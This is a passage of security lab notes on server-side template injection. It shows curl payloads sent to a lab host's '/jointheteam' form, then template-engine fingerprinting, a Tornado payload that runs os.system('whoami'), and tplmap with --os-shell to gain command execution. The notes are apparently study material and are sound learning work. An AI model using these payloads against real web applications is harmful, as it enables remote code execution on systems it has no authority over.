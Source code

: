 * SSTI exploitation example 2:

  * The target web app accepts user input for parameter 'email' through a POST request to '/jointheteam'; we can try some SSTI payloads:

    ```shell
    curl -X POST -d 'email={7*7}' http://94.237.54.170:59106/jointheteam

    curl -X POST -d 'email=${7*7}' http://94.237.54.170:59106/jointheteam

    curl -X POST -d 'email=#{7*7}' http://94.237.54.170:59106/jointheteam

    curl -X POST -d 'email=%{7*7}' http://94.237.54.170:59106/jointheteam

    curl -X POST -d 'email={{7*7}}' http://94.237.54.170:59106/jointheteam
    # this payload gets executed and we get 49 in response
    ```
  
  * As per the PortSwigger diagram, we can try next for payload ```{{7*'7'}}``` - this also gets executed, so we could be dealing with Jinja2 or Twig

  * However, any Jinja2 or Twig specific payloads throw '500: Internal Server Error':

    ```shell
    curl -X POST -d 'email={{_self.env}}' http://94.237.54.170:59106/jointheteam

    curl -X POST -d 'email={{settings.SECRET_KEY}}' http://94.237.54.170:59106/jointheteam
    ```
  
  * This methodology can be improved by compiling a list of template engine-specific payloads from multiple sources like [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2) and [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection), and fuzzing the app until we can conclude on template engine; alternatively use automated tools

  * For the above, Tornado-specific payloads work, implying that is the underlying template engine:

    ```shell
    curl -X POST -d "email={% import os %}{{os.system('whoami')}}" http://94.237.54.170:59106/jointheteam
    # does not throw internal server error
    ```

  * Using an automated tool like ```tplmap``` also works:

    ```shell
    ./tplmap.py -u 'http://94.237.54.170:59106/jointheteam' -d email=test
    # this shows Tornado as the template engine

    ./tplmap.py -u 'http://94.237.54.170:59106/jointheteam' -d email=test --os-shell
    ```

* SSTI exploitation example 3:
